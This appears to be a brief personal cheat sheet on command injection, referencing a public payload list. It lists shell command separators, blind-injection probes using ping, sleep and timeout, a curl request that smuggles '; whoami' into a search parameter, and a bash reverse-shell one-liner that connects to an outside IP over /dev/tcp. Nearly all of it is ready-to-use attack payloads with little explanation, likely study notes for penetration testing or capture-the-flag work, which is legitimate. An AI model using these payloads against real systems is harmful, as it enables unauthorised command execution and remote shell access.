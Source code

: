 https://github.com/payloadbox/command-injection-payload-list


`; & &&`      will combine several commands and execute them all


If blind:
ping and sleep can be used for testing and getting a delay
`>`               redirect to file that we might be able to read
`timeout /t <timeoutinseconds> [/nobreak]` windows

To try and find blind
`curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`